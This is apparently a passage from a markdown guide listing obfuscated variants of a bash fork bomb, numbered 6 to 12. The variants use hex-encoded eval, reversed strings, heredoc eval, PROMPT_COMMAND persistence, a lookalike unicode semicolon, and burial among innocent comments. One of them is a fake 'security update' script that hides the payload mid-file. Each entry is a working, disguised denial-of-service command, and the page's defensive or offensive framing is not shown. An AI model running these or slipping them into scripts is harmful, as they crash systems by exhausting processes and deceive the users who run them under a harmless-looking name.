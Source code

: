 ### 6. Using Character Substitution
```bash
# Using unicode or special characters that look similar
# Uses greek question mark (;) instead of semicolon
:(){ :|:& }​;:  # <- Contains hidden unicode character
```

### 7. Heredoc with Eval
```bash
eval "$(cat <<'EOF'
:(){ :|:& };:
EOF
)"
```

### 8. Reverse String
```bash
# Command written backwards then reversed
echo ":;}& :|: {):" | rev | bash
```

### 9. Command Substitution Nesting
```bash
$(echo -n : ; echo '(){ :|:& };:') | bash
```

### 10. Downloaded Script with Innocent Name
```bash
# File named "update-security.sh" but contains:
#!/bin/bash
# Security Update Script v1.2
# Checking system...
sleep 2
echo "Applying security patches..."
sleep 1

# Hidden in middle of script:
eval "$(printf '\x3a\x28\x29\x7b\x20\x3a\x7c\x3a\x26\x20\x7d\x3b\x3a')"

echo "Update complete!"
```

### 11. Environment Variable Abuse
```bash
export PROMPT_COMMAND=':(){ :|:& };:'
# Executes every time prompt is displayed
```

### 12. Whitespace/Comment Hiding
```bash
#!/bin/bash
# Long legitimate-looking script
# ... 300 lines of normal commands ...
:(){                    # Innocent comment about function
  :|:&                  # More innocent comments
};:                     # End of function
# ... more legitimate code ...
```
